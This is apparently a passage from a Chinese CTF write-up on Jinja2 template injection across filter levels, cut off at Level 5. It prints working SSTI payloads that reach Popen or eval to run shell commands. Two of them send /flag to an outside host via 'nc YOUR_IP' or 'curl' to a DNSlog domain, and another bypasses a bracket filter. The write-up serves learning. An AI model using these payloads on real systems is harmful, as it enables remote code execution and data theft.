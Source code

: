 **方法一：使用 `nc` 反弹**

```jinja
{% for i in ''.__class__.__mro__[-1].__subclasses__() %}
{% if i.__name__ == 'Popen' %}
{{ i.__init__.__globals__['os'].popen('cat /flag | nc YOUR_IP 8080').read() }}
{% endif %}
{% endfor %}
```

*将 `YOUR_IP` 替换为你监听的服务器 IP。*

**方法二：使用 DNSlog 或 HTTP 请求外带**

```jinja
{% for i in ''.__class__.__mro__[-1].__subclasses__() %}
{% if i.__name__ == 'Popen' %}
{{ i.__init__.__globals__['os'].popen('curl `cat /flag`.YOUR_DNSLOG_DOMAIN').read() }}
{% endif %}
{% endfor %}
```

*将 `YOUR_DNSLOG_DOMAIN` 替换为你的 DNSlog 平台提供的域名，例如 `b5orv752.eyes.sh`。命令执行结果将作为子域名显示在 DNS 查询记录中。*

-----

## Level 4 - 过滤 `[` 和 `]` (['[', ']'])

如果中括号 `[` 和 `]` 被过滤，可以采用以下方法绕过：

  * **列表/元组索引:** 使用 `|first`, `|last`, `.pop()` 或 `.__getitem__(index)` 方法代替 `[index]`。
  * **字典键访问:** 使用 `.__getitem__('key')` 方法代替 `['key']`。
  * **属性访问:** 可以使用 `|attr('attribute_name')` 过滤器或 `.__getattribute__('attribute_name')` 方法代替 `.attribute_name`（虽然此题主要针对中括号）。

**综合利用 Payload:**

这个 Payload 使用 `.__getitem__()` 来替代索引和字典访问中的中括号，并寻找内置的 `eval` 函数来执行命令。

```jinja
{% for x in ().__class__.__mro__.__getitem__(-1).__subclasses__() %}
{% if x.__init__ is defined and x.__init__.__globals__ is defined and 'eval' in x.__init__.__globals__.__getitem__('__builtins__').__getitem__('eval').__name__ %}
{{ x.__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()') }}
{% endif %}
{% endfor %}
```
![[‘[‘, ‘]’] 2](./images/ssti6.png)

-----

## Level 5 - 过滤引号 `''` 和 `""` ([''', '""'])

过滤了单引号和双引号时，可以通过以下方法绕过：

